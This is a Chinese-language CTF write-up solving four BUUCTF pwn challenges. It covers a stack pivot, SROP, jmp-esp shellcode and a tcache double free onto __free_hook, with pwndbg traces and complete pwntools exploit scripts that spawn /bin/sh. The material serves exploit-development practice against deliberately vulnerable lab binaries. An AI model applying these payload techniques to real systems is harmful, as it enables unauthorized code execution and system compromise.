第二次构造的payload是这样：

`payload=(p32(sys_addr)+'aaaa'+p32(buf+12)+'/bin/sh\x00').ljust(0x28,'a')+p32(buf_addr-4)+p32(leave)`

前面的0x28是用来填充，`buf_addr`是覆写ebp的地址，leave覆写ret的地址。

所有的流程如下：



具体的调试情况如下：

执行源程序中的leave前：
```bash
EAX  0x8
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xffffd098 —▸ 0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
 ESP  0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp    dword ptr [0x804a018]
 EIP  0x80485fd (vul+104) ◂— leave  
──────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
   0x80485ee <vul+89>                     push   eax
   0x80485ef <vul+90>                     push   0x80486ca
   0x80485f4 <vul+95>                     call   printf@plt <0x80483e0>
 
   0x80485f9 <vul+100>                    add    esp, 0x10
   0x80485fc <vul+103>                    nop    
 ► 0x80485fd <vul+104>                    leave  
   0x80485fe <vul+105>                    ret    
    ↓
   0x80484b8 <deregister_tm_clones+40>    leave  
   0x80484b9 <deregister_tm_clones+41>    ret    
    ↓
   0x8048400 <system@plt>                 jmp    dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
 
   0x8048406 <system@plt+6>               push   0x18
───────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp    dword ptr [0x804a018]
01:0004│      0xffffd074 ◂— 0x61616161 ('aaaa')
02:0008│      0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
03:000c│      0xffffd07c ◂— '/bin/sh'
04:0010│      0xffffd080 ◂— 0x68732f /* '/sh' */
05:0014│      0xffffd084 ◂— 0x61616161 ('aaaa')

```
执行源程序中的leave后：
```
 EAX  0x8
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
 ESP  0xffffd09c —▸ 0x80484b8 (deregister_tm_clones+40) ◂— leave  
 EIP  0x80485fe (vul+105) ◂— ret    
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
   0x80485ef <vul+90>                     push   0x80486ca
   0x80485f4 <vul+95>                     call   printf@plt <0x80483e0>
 
   0x80485f9 <vul+100>                    add    esp, 0x10
   0x80485fc <vul+103>                    nop    
   0x80485fd <vul+104>                    leave  
 ► 0x80485fe <vul+105>                    ret             <0x80484b8; deregister_tm_clones+40>
    ↓
   0x80484b8 <deregister_tm_clones+40>    leave  
   0x80484b9 <deregister_tm_clones+41>    ret    
    ↓
   0x8048400 <system@plt>                 jmp    dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
 
   0x8048406 <system@plt+6>               push   0x18
   0x804840b <system@plt+11>              jmp    0x80483c0
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp  0xffffd09c —▸ 0x80484b8 (deregister_tm_clones+40) ◂— leave  
01:0004│      0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
02:0008│      0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1
03:000c│      0xffffd0a8 ◂— 0x0
04:0010│      0xffffd0ac —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add    esp, 0x10
05:0014│      0xffffd0b0 —▸ 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
07:001c│      0xffffd0b8 ◂— 0x0
```
执行完源程序中的ret后：
```
 EAX  0x8
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
 ESP  0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
 EIP  0x80484b8 (deregister_tm_clones+40) ◂— leave  
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
   0x80485f4 <vul+95>                     call   printf@plt <0x80483e0>
 
   0x80485f9 <vul+100>                    add    esp, 0x10
   0x80485fc <vul+103>                    nop    
   0x80485fd <vul+104>                    leave  
   0x80485fe <vul+105>                    ret    
    ↓
 ► 0x80484b8 <deregister_tm_clones+40>    leave  
   0x80484b9 <deregister_tm_clones+41>    ret    
    ↓
   0x8048400 <system@plt>                 jmp    dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
 
   0x8048406 <system@plt+6>               push   0x18
   0x804840b <system@plt+11>              jmp    0x80483c0
    ↓
   0x80483c0                              push   dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp  0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
01:0004│      0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1
02:0008│      0xffffd0a8 ◂— 0x0
03:000c│      0xffffd0ac —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xffffd0b0 —▸ 0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
06:0018│      0xffffd0b8 ◂— 0x0
07:001c│      0xffffd0bc —▸ 0xf7e1c647 (__libc_start_main+247) ◂— add    esp, 0x10
```
执行完构造payload中的leave后：
```
 EAX  0x8
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
 ESP  0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp    dword ptr [0x804a018]
 EIP  0x80484b9 (deregister_tm_clones+41) ◂— ret    
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
   0x80485f9 <vul+100>                    add    esp, 0x10
   0x80485fc <vul+103>                    nop    
   0x80485fd <vul+104>                    leave  
   0x80485fe <vul+105>                    ret    
    ↓
   0x80484b8 <deregister_tm_clones+40>    leave  
 ► 0x80484b9 <deregister_tm_clones+41>    ret             <0x8048400; system@plt>
    ↓
   0x8048400 <system@plt>                 jmp    dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
 
   0x8048406 <system@plt+6>               push   0x18
   0x804840b <system@plt+11>              jmp    0x80483c0
    ↓
   0x80483c0                              push   dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
   0x80483c6                              jmp    dword ptr [0x804a008] <0xf7fee000>
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp  0xffffd070 —▸ 0x8048400 (system@plt) ◂— jmp    dword ptr [0x804a018]
01:0004│      0xffffd074 ◂— 0x61616161 ('aaaa')
02:0008│      0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
03:000c│      0xffffd07c ◂— '/bin/sh'
04:0010│      0xffffd080 ◂— 0x68732f /* '/sh' */
05:0014│      0xffffd084 ◂— 0x61616161 ('aaaa')
```
执行完构造payload中的ret后：
```
 EAX  0x8
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb8870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
 EBP  0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
 ESP  0xffffd074 ◂— 0x61616161 ('aaaa')
 EIP  0x8048400 (system@plt) ◂— jmp    dword ptr [0x804a018]
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
   0x80485fc  <vul+103>                    nop    
   0x80485fd  <vul+104>                    leave  
   0x80485fe  <vul+105>                    ret    
    ↓
   0x80484b8  <deregister_tm_clones+40>    leave  
   0x80484b9  <deregister_tm_clones+41>    ret    
    ↓
 ► 0x8048400  <system@plt>                 jmp    dword ptr [_GLOBAL_OFFSET_TABLE_+24] <0x804a018>
 
   0x8048406  <system@plt+6>               push   0x18
   0x804840b  <system@plt+11>              jmp    0x80483c0
    ↓
   0x80483c0                               push   dword ptr [_GLOBAL_OFFSET_TABLE_+4] <0x804a004>
   0x80483c6                               jmp    dword ptr [0x804a008] <0xf7fee000>
    ↓
   0xf7fee000 <_dl_runtime_resolve>        push   eax
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp  0xffffd074 ◂— 0x61616161 ('aaaa')
01:0004│      0xffffd078 —▸ 0xffffd07c ◂— '/bin/sh'
02:0008│      0xffffd07c ◂— '/bin/sh'
03:000c│      0xffffd080 ◂— 0x68732f /* '/sh' */
04:0010│      0xffffd084 ◂— 0x61616161 ('aaaa')
```

Exp：

```python
from pwn import *
context.log_level='debug'
io = remote("node4.buuoj.cn",27655)
# io = process("./ciscn_s_4")
elf = ELF("./ciscn_s_4")
sys_addr = elf.sym['system']
leave=0x080484b8

io.recv()
payload = 'a'*(0x28)
io.send(payload)
io.recvuntil('a'*0x28)
# gdb.attach(io)
ebp = u32(io.recv(4))
buf_add = ebp - 0x38
print hex(ebp)

payload = p32(sys_addr) + 'aaaa' + p32(buf_add+12) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add-4) + p32(leave)

#payload = 'aaaa'+p32(sys_addr) + 'aaaa' + p32(buf_add+16) + b"/bin/sh\x00"
#payload += (0x28 - len(payload))* b'a' + p32(buf_add) + p32(leave)
#两个payload都可以，意思都一样
io.send(payload)
io.interactive()
```

# 0x0B.ciscn_2019_es_7

>    （SROP）

```assembly
.text:00000000004004ED ; __unwind {
.text:00000000004004ED                 push    rbp
.text:00000000004004EE                 mov     rbp, rsp
.text:00000000004004F1                 xor     rax, rax
.text:00000000004004F4                 mov     edx, 400h       ; count
.text:00000000004004F9                 lea     rsi, [rsp+buf]  ; buf
.text:00000000004004FE                 mov     rdi, rax        ; fd
.text:0000000000400501                 syscall                 ; LINUX - sys_read
.text:0000000000400503                 mov     rax, 1
.text:000000000040050A                 mov     edx, 30h ; '0'  ; count
.text:000000000040050F                 lea     rsi, [rsp+buf]  ; buf
.text:0000000000400514                 mov     rdi, rax        ; fd
.text:0000000000400517                 syscall                 ; LINUX - sys_write
.text:0000000000400519                 retn
.text:0000000000400519 vuln            endp ; sp-analysis failed
```

其中buf长度是0x10，但是write的时候打印了0x30个字符，可以打印出地址，调试输入的内容与返回地址的偏移

之后栈地址-偏移地道输入的地址

配合srop getshell

```shell
yutao@ubuntu:~$ cd Desktop/
[+] Starting local process './ciscn_2019_es_7' argv=['./ciscn_2019_es_7'] : pid 95424
[*] running in new terminal: /usr/bin/gdb -q  "./ciscn_2019_es_7" 95424
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./ciscn_2019_es_7" 95424']
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[DEBUG] Sent 0x18 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  00 00 00 00  00 00 00 00  │/bin│/sh·│····│····│
    00000010  ed 04 40 00  00 00 00 00                            │··@·│····│
    00000018
[DEBUG] Received 0x30 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  00 00 00 00  00 00 00 00  │/bin│/sh·│····│····│
    00000010  ed 04 40 00  00 00 00 00  36 05 40 00  00 00 00 00  │··@·│····│6·@·│····│
    00000020  58 c4 e9 87  fc 7f 00 00  00 00 00 00  01 00 00 00  │X···│····│····│····│
    00000030
0x7ffc87e9c458
```

可以算出binsh与0x7ffc87e9c458的地址差0x118.

额。。要加：

```python
context.arch = 'amd64'
context.os   = 'linux'
```

第一开始没懂，还重装了便系统，。。

exp：

```python
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
context.os   = 'linux'
context.log_level = 'debug'

io = process("./ciscn_2019_es_7")
# pause()
# gdb.attach(io)
vuln_addr = 0x04004ED 
syscall_ret=0x400517
sigreturn_addr=0x4004da#__NR_rt_sigreturn
system_addr=0x4004E2#execve

io.sendline("/bin/sh\x00"+"\x00"*8+p64(vuln_addr))
io.recv(32)

stack_leak= u64(io.recv(8))
bin_sh = stack_leak - 0x118
io.recv()
sigframe = SigreturnFrame() 
sigframe.rax = constants.SYS_execve
sigframe.rdi = bin_sh
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_leak
sigframe.rip = syscall_ret
io.send("/bin/sh\x00"+p64(0) + p64(sigreturn_addr)+p64(syscall_ret)+str(sigframe))

io.interactive()
```

# 0x0C.ciscn_2019_s_9

看下检查,全没开

```shell
yutao@ubuntu:~/Desktop$ checksec ./ciscn_s_9
[*] '/home/yutao/Desktop/ciscn_s_9'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

```c
int pwn()
{
  char s[24]; // [esp+8h] [ebp-20h] BYREF

  puts("\nHey! ^_^");
  puts("\nIt's nice to meet you");
  puts("\nDo you have anything to tell?");
  puts(">");
  fflush(stdout);
  fgets(s, 50, stdin);
  puts("OK bye~");
  fflush(stdout);
  return 1;
}
```

有可用的gadget：

```assembly
.text:08048551 hint            proc near
.text:08048551 ; __unwind {
.text:08048551                 push    ebp
.text:08048552                 mov     ebp, esp
.text:08048554                 jmp     esp
.text:08048554 hint            endp
```

直接写shellcode的话会太长，那么需要找一些短的shellcode(或者手写)，之后的ret覆写为jmp的那个gadget，后面还需要提升堆栈。

```python
from pwn import *
context(log_level = "debug",arch='i386',os='linux')
#io = process("./ciscn_s_9")

io = remote("node4.buuoj.cn",29087)
jump_esp=0x8048554
shellcode='''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
'''
shell = asm(shellcode)
payload = shell.ljust(0x24,'a')+p32(jump_esp)
payload+=asm("sub esp,40;call esp;")
io.sendline(payload)
io.interactive()
```

# 0x0D.ciscn_2019_es_1

保护全开：

```sh
yutao@ubuntu:~/Desktop$ checksec ciscn_2019_es_1
[*] '/home/yutao/Desktop/ciscn_2019_es_1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

add:

```c
unsigned __int64 add()
{
  int v1; // [rsp+4h] [rbp-3Ch]
  __int64 *v2; // [rsp+8h] [rbp-38h]
  __int64 size[5]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  if ( heap_number > 12 )
  {
    puts("Enough!");
    exit(0);
  }
  v1 = heap_number;
  heap_addr[v1] = malloc(0x18uLL);
  puts("Please input the size of compary's name");
  __isoc99_scanf("%d", size);
  *(heap_addr[heap_number] + 2) = size[0];
  v2 = heap_addr[heap_number];
  *v2 = malloc(LODWORD(size[0]));
  puts("please input name:");
  read(0, *heap_addr[heap_number], LODWORD(size[0]));
  puts("please input compary call:");
  read(0, heap_addr[heap_number] + 12, 0xCuLL);
  *(heap_addr[heap_number] + 23) = 0;
  puts("Done!");
  ++heap_number;
  return __readfsqword(0x28u) ^ v4;
}
```

call就是free：

```c
unsigned __int64 call()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Please input the index:");
  __isoc99_scanf("%d", &v1);
  if ( heap_addr[v1] )
    free(*heap_addr[v1]);
  puts("You try it!");
  puts("Done");
  return __readfsqword(0x28u) ^ v2;
}
```

是2.27，有tcache，先malloc个大一点的chunk，free后直接放入unsortedbin。然后就是正常流程了。

tmd调了半天结果终于发现哪里有问题了，python的切片一直写错......

exp：

```python
from pwn import *

context.log_level="debug"

io = remote("node4.buuoj.cn",27004)
elf = ELF("./ciscn_2019_es_1")

libc = ELF("./libc-x64-2.27.so")

def add(size,name,compary):
	io.sendlineafter('choice:','1')
	io.sendlineafter("compary's name",str(int(size)))
	io.sendafter('input name:',name)
	io.sendafter('call:',compary)

def show(index):
	io.sendlineafter('choice:','2')
	io.sendlineafter('\n',str(index))

def call(index):
	io.sendlineafter('choice','3')
	io.sendlineafter('\n',str(index))


add(0x410,'aaaa','250')#0
add(0x20,'bbbb','2223451')#1
add(0x20,'/bin/sh','2353')
call(0)
show(0)

libcbase=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96-0x10-libc.sym['__malloc_hook']
free_hook=libcbase+libc.sym['__free_hook']
system=libcbase+libc.sym['system']

call(1)
call(1)

add(0x20,p64(free_hook),'13456')
add(0x20,'dddd','256')
add(0x20,p64(system),'666')

call(2)

io.interactive()
```
